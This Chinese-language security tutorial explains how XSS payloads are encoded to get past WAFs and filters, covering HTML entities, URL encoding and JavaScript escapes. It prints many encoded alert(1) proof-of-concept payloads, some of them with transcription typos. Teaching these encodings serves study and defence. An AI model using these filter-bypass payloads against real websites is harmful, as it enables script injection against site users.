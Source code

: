 前言
==

网上有许多关于XSS漏洞的文章，但是这些文章大部分都是直接给出了攻击载荷却并没有对他们的编码方式进行分析与讲解，这对与刚接触到XSS想深入学习的人并不是十分的友好，当我看到这个攻击载荷的时候，我不明白为什么要这样写，为什么这样写了就可以绕过一些防护，所以这篇文章我准备分享一下，我对XSS编码的理解与大佬们一起学习进步。

XSS常见编码分类
=========

[![](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-9745b3254327ca6a301b71061f4563ed8fb04f25.png)](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-9745b3254327ca6a301b71061f4563ed8fb04f25.png)

#### 输出点处做编码最主要的目的是什么，为什么要去做编码？

最主要的目的就是绕WAF、过滤函数，通常在没有WAF和过滤函数的情况下，我们只需要使用原始字符，XSS攻击的一大精髓就是简短，利用少量代码达到攻击效果，编码往往会使exp的长度增加

##### 输出在HTML中

**Entity（实体）编码**  
**概念：**在编写HTML页面时，需要用到"&lt;"、"&gt;"、"空格" 等符号，直接输入这些符号时，会错误的把它们与标记混在一起，非常不利于编码。那么就需要把这些字符进行转义，以另一种方式书写，以相同的形式展现。在HTML中，这些字符可称为HTML Entity,即HTML字符实体。

**编码范围：**包括但不限于以下字符: ASCll Characters(可见部分).ISO 8859-1 Characters、lSO 8859-1 Symbols、Math Symbols、Greek Letters、 Miscellaneous HTML entities。  
[![](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-61c579d778e11fc456123690adde3a68bef35687.png)](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-61c579d778e11fc456123690adde3a68bef35687.png)

##### Entity（实体）编码 ————两种格式

**格式一：**&amp;entityName  
说明："**&amp;**"开头，";"结尾，以语义的形式描述字符。如字符"**&lt;**"，英文名称为"less than"，EntityName为"**&amp;lt**;"，取自"less than"2个单词的首字母。  
**格式二：**&amp;#entityNumber  
**说明：**"**&amp;#**"开头，"**;**"结尾，以编号的形式描述字符。此编号可以为十进制或十六进制(以"**&amp;#x**"开头)等数字格式。  
**注：**entityName的数量要小于entityNumber的数量

##### Entity（实体）编码 ————实例

这里我们主要研究的是编码方式，所以我直接使用菜鸟工具里的在线编辑功能进行演示  
[![](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-9b5267a699a70b24f8c7faf0a86c7df8280eba1f.png)](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-9b5267a699a70b24f8c7faf0a86c7df8280eba1f.png)

```php
<h1>Entity编码</h1>
<p>entityName:</p>
&lt;<br>
&gt;<br>
&excl;<br>
&quot;<br>
&num;<br>
8amp ;<br>
<p>entityNumber:</p>
&#60;<br>
&#62;<br>
&#33;<br>
&#34;<br>
&#35;<br>
&#38;<br>
```

##### 浏览器的解析行为

**行为1:** HTML解析器在建立文档树的时候会针对节点内的Entity编码解码后传输。  
等效语句:

```php
<img src="1" onerror="alert(1)">
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-409a8a72e4d3e34eea93524243b6a48ccd0218a3.png)](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-409a8a72e4d3e34eea93524243b6a48ccd0218a3.png)  
通过entityNumber编码

```php
<img src="1" onerror="&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;">
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-3673205e1468bd5b7827ead305107bd62bf4cb0c.png)](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-3673205e1468bd5b7827ead305107bd62bf4cb0c.png)  
**注意:属于标签本身结构的部分不会被解析**

```php
<img src=1 onerror&#61;alert(1)>
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-ddd388562cda2300295b29832036d6defd2bc807.png)](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-ddd388562cda2300295b29832036d6defd2bc807.png)

```php
<a href="javascript:alert(1)">click me</a>
<a href="j&#x61;vascript:alert(1)">click me</a>
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-cda6820b44bdda4d3c793de836d9dcbf08032d1c.png)](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-cda6820b44bdda4d3c793de836d9dcbf08032d1c.png)  
**行为2：**允许在如之后插入任意多个0。  
等效语句:

```php
<img src="1" onerror="alert(1)">
<img src="1"
onerror="&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;">
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-60495efbf71d5b3271b4fe1fb549d92dbd216100.png)](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-60495efbf71d5b3271b4fe1fb549d92dbd216100.png)

```php
<img src="1"
onerror="&#00000000000000097;&#108;&#101;&#114;&#116;&#40;&#49;&#41;">
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-85dc58162b094ea8011b6ebc7015c9ba659032cb.png)](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-85dc58162b094ea8011b6ebc7015c9ba659032cb.png)  
**行为3:**针对URL类型的属性，允许进行一次URL编码。  
注：URL类型的属性，通俗理解就是链接的属性  
等效语句:

```php
<a href="javascript:alert(1)">click me</a>
<a href="j&#x61;vascript:alert(1)">click me</a>
<a href="j&#x61;vascript:%61%6c%65%72%74%28%31%29">click me</a>
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-cdba148282908ab78d7ce810c7b2a441e989ae50.png)](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-cdba148282908ab78d7ce810c7b2a441e989ae50.png)  
**行为4：**URL编码的部分可以进行第二次Entity编码。  
注：不能无限套娃，只能在URL编码部分进行一次Entity编码，若是经过Entity编码之后，又进行了一次URL编码，这是不会被解析的  
等效语句:

```php
<a href="javascriptalert(1)">click me</a>
<a href="j&#x61;vascript:alert(1)">click me</a>
<a href="j&#x61;vascript:%61%6c%65%72%74%28%31%29">click me</a>
<a href="j&#x61;vascript:&#37;&#54;&#49;&#37;&#54;&#99;&#37;&#54;&#53;&#37;&#55;&#50;&#37;&#55;&#52;&#37;&#50;&#56;&#37;&#51;&#49;&#37;&#50;&#57;">click me</a>
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-7a586c02f14e69ff8fb6ee4735c26381d5773683.png)](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-7a586c02f14e69ff8fb6ee4735c26381d5773683.png)  
**行为5：**URI类型的属性忽略Tab和回车符。  
等效语句:  
&lt;a href="javascript:alert(1)"&gt; click me&lt;/a&gt;  
&lt;a href="javascript:%61%6c%65%72%74%28%31%29"&gt;click me&lt;/a&gt;  
[![](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-4ed696a9108d70d7695cc9bc1875b0c6239b4201.png)](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-4ed696a9108d70d7695cc9bc1875b0c6239b4201.png)  
注：Tab符和回车符也可以再进行一次Entity编码

**行为6:** Entity编码的;可以去除。  
等效语句:  
&lt;a href="javascriptalert(1)"&gt;click me&lt;/a&gt;  
&lt;a href="j&amp;#x61vascript:&amp;#37&amp;#54&amp;#49&amp;#37&amp;#54&amp;#99&amp;#37&amp;#54&amp;#53&amp;#37&amp;#55&amp;#50&amp;#37&amp;#55&amp;#52&amp;#37&amp;#50&amp;#56&amp;#37&amp;#51&amp;#49&amp;#37&amp;#50&amp;#57"&gt;click me&lt;/a&gt;  
[![](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-f67dfc8ec67190452aeeffbdb7177070ec7278a3.png)](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-f67dfc8ec67190452aeeffbdb7177070ec7278a3.png)  
注：不同格式的Entity编码可以混用

##### 四种编码策略

**C语言编码：**对于一些控制字符，使用特殊的C类型的转义风格（例如\\n和\\r)，公认的ECMAScript编码。  
**八进制编码:**三个八进制数字，例如"e"编码为"\\145"，该语法不属于ECMAScript,但是基本所有的浏览器都支持。  
**十六进制编码：**两个十六进制数字，例如"e"编码为"\\x65”，同样不属于ECMAScript，但是在解析底层，c语言中有很好的支持。  
**Unicode编码：**如\\u0065可表示字符e，属于ECMAScript编码。  
注：ECMAScrip是Javascript的一个标准

```php
<script>
document.getElementByld("a").\u0069\u006e\uO06e\u0065\u0072\u0048\u0054\u004d\u004c="\x3c\151\155\147\40\163\162\143\75\61\40\157\156\145\162\162\157\162\75\141\154\145\162\164\50\61\51\u003e";
</script>
```

**注：**前三种只能用于给字符串编码。第四种还可以用来给方法名编码  
不可以代替括号，引号，点号等特殊字符

```php
<script>
\u0061lert("test");
</script>
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-bb7ace8d17363a667f4343391e9dda14f304840e.png)](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-bb7ace8d17363a667f4343391e9dda14f304840e.png)

##### 常见误区

误区1: XSS，不是专门去"绕过"限制。  
误区2: XSS，不仅仅存在于你所看得见的位置。  
误区3: XSS，绕过限制不是乱用字符去绕过，切忌盲目。

总结
==

在刚接触XSS的时候，需要做的是了解其中的原理与编码方式，自己构造的语句中哪里可以在此基础上进行编码的构造，掌握了XSS编码的基础，在之后的学习中可以更好的理解别人构造的攻击载荷，而不是盲目的瞎改，导致语句无法解析不能绕过防护。